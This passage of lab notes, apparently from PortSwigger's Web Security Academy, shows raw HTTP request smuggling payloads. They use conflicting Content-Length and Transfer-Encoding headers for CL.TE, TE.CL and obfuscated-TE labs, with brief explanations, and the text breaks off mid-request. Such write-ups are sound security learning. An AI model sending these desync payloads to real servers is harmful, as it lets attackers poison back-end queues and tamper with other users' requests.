 ```
\r\n
0\r\n
\r\n
G
```

Here the `Content-Length` is 6 which is equivalent of 
```
0\r\n
\r\n
```
And the backend accepts Transfer encoding where the G get's missed and get's appended on next request.



## Lab: HTTP request smuggling, basic TE.CL vulnerability

```
POST / HTTP/1.1
Host: 0a33009403061ede808cc10300f30060.web-security-academy.net
Cookie: session=Yo8PwnP8XfFoThwQj6sEZBAgoiUkbb6J
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked
\r\n
1\r\n
G\r\n
0\r\n
\r\n

```

Sending this request solves the lab


## Lab: HTTP request smuggling, obfuscating the TE header

```
POST / HTTP/1.1
Host: 0ad500b403463fa481a67f5f00370009.web-security-academy.net
Cookie: session=iVTVnRQxl4P3vLiDcyWqnfFHO7xA5MYg
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
```